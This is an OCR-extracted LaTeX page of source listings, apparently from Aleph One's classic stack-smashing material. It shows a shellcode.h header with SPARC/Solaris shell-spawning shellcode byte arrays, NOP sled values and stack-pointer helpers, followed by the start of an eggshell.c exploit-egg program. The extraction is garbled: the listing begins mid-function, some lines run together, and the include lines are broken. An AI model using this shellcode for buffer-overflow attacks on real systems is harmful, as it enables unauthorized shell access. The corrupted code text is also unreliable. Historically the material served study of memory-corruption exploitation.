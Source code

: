 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=shellcode.h]
   __asm__("movl %esp,%eax");

}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE        4char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =

  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"

  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"

  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"

  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {

  __asm__("or %sp, %sp, %i0");

}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4

char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =

  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"

  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"

  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"

  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {

  __asm__("or %sp, %sp, %i0");

}

#endif
\end{lstlisting}

\begin{lstlisting}[caption=eggshell.c]

/*

 * eggshell v1.0

 *

 * Aleph One / aleph1@underground.org

 */

#include 

#include stdio.h

#include "shellcode.h"

#define DEFAULT_OFFSET                    0


\end{lstlisting}}
\end{document}
